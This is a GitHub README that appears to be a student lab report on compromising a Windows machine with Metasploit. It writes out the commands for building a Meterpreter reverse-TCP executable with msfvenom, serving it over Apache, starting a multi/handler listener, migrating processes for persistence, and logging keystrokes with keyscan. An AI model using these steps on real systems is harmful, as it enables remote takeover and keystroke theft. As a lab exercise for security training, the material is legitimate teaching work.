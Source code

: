 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

### Find the attackers ip address using ifconfig.
![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_32sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/117ec91a-4b9c-444b-ad6c-dd87219f0e80)

### Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.
![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_33sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/d90639e9-e408-401c-bae7-6a647733caa8)

### copy the fun.exe into the apache /var/www/html folder.

![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_34sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/5ff3e96f-e5ce-407e-b046-4ffb05ba70fb)

### Start apache server sudo systemctl apache2 start.

![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_35sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/8a53f274-a263-417b-b7e0-6f07d299c3c4)

### Check the status of apache2.

![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_36sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/7362bd87-0d5c-44c0-9d4d-a85ddabd6a22)

### Invoke msfconsole:

![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_37sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/0c544326-3706-491d-a940-ebbc59fdc17a)

### Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_38sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/0c90be19-cd35-4f30-9381-7046d49f5442)

### Starting a command and control Server use multi/handler

![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_39sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/96b76e1e-e40c-4117-aa81-7a8415bec815)

### set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_40sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/551a85fc-8923-46d9-afde-551290b502f9)

### Bypass any warning boxes, double-click the file, and allow it to run.

![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_41sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/ad95d0f4-128d-43a3-8c5b-47bdf729adb0)

### To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_42sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/c5bcbe9f-7a25-4354-8e45-9caefc2c3a3c)

### The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_43sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/e7cc3f6b-5b47-4bc7-8dd3-831434121244)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_42sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/4a6dfd61-aaaf-467a-a464-8ec7105400f8)

keyscan_dump Shows the keystrokes captured so far
![VirtualBox_kali-linux-2024 1-virtualbox-amd64_12_04_2024_10_42sudo](https://github.com/Narasimhan05/Compromising-windows-using-Metasploit/assets/132819871/03b4ffaa-004a-4cc3-b101-d12bf3db331d)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
